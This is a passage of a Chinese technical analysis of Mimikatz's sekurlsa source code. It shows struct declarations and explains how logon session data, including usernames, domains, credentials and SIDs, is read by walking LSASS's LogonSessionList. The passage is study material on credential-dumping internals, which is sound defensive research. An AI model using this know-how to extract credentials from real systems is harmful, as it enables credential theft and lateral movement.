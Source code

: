 ```c++
                    }
                    else break;
                }
            }
            LocalFree(aBuffer.address);
        }
    }
}
```

这里先根据 `BuildNumber` 中的系统版本，从 `lsassEnumHelpers` 中选择适合的条目，这是一个 `KUHL_M_SEKURLSA_ENUM_HELPER` 结构体的数组，用于保存用户的各种信息在 `KIWI_MSV1_0_LIST_63` 中的偏移量，其声明如下。

```c++
typedef struct _KUHL_M_SEKURLSA_ENUM_HELPER {
    SIZE_T tailleStruct;
    ULONG offsetToLuid;
    ULONG offsetToLogonType;
    ULONG offsetToSession;
    ULONG offsetToUsername;
    ULONG offsetToDomain;
    ULONG offsetToCredentials;
    ULONG offsetToPSid;
    ULONG offsetToCredentialManager;
    ULONG offsetToLogonTime;
    ULONG offsetToLogonServer;
} KUHL_M_SEKURLSA_ENUM_HELPER, *PKUHL_M_SEKURLSA_ENUM_HELPER;
```

然后通过遍历 `LogonSessionList` 依次得到登录 ID、用户名、域名、凭据、SID、登录时间以及登录到的服务器等信息，并将让它们临时保存在 `sessionData` 中，这是一个 `KIWI_BASIC_SECURITY_LOGON_SESSION_DATA` 结构体，其声明如下。

```c++
typedef struct _KIWI_BASIC_SECURITY_LOGON_SESSION_DATA {
    PKUHL_M_SEKURLSA_CONTEXT    cLsass;
    const KUHL_M_SEKURLSA_LOCAL_HELPER * lsassLocalHelper;
    PLUID                       LogonId;
    PLSA_UNICODE_STRING         UserName;
    PLSA_UNICODE_STRING         LogonDomain;
    ULONG                       LogonType;
    ULONG                       Session;
    PVOID                       pCredentials;
    PSID                        pSid;
    PVOID                       pCredentialManager;
    FILETIME                    LogonTime;
    PLSA_UNICODE_STRING         LogonServer;
} KIWI_BASIC_SECURITY_LOGON_SESSION_DATA, *PKIWI_BASIC_SECURITY_LOGON_SESSION_DATA;
```

最后将 `&sessionData` 和 `pOptionalData` 传入回调函数 `kuhl_m_sekurlsa_enum_callback_logondata()`。

Print logon Information
=======================
